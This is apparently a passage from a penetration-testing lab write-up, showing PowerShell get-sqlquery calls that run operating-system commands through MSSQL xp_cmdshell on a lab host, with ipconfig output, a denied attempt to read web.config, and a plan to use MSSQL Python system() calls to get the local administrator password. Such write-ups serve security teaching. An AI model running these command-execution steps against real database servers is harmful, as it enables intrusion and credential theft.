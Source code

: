 The IPv6 address is `dead:babe::1001`:

```
PS C:\Users\snowscan> get-sqlquery -verbose -instance $i -username $user -password $pass -query "xp_cmdshell 'ipconfig /all'"
VERBOSE: 10.13.38.11,1433 : Connection Success.

output
------

Windows IP Configuration

   Host Name . . . . . . . . . . . . : COMPATIBILITY
   Primary Dns Suffix  . . . . . . . : intranet.poo
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : intranet.poo

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : Intel(R) 82574L Gigabit Network Connection
   Physical Address. . . . . . . . . : 00-50-56-8F-F7-4E
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv6 Address. . . . . . . . . . . : dead:babe::1001(Preferred)
   Link-local IPv6 Address . . . . . : fe80::55b2:8257:8174:cc7%13(Preferred)
   IPv4 Address. . . . . . . . . . . : 10.13.38.11(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : dead:babe::1
                                       10.13.38.2
   DNS Servers . . . . . . . . . . . : dead:babe::1
                                       10.13.38.2
   NetBIOS over Tcpip. . . . . . . . : Disabled
```

We can't read anything interesting with this user: 

```
PS C:\Users\snowscan> get-sqlquery -verbose -instance $i -username $user -password $pass -query "xp_cmdshell 'type c:\\inetpub\\wwwroot\\web.config'"
VERBOSE: 10.13.38.11,1433 : Connection Success.

output
------
Access is denied.
```

We'll need to look for another way in.

### Python to the rescue

MSSQL supports python, we can find the local administrator password by doing `system()` calls.
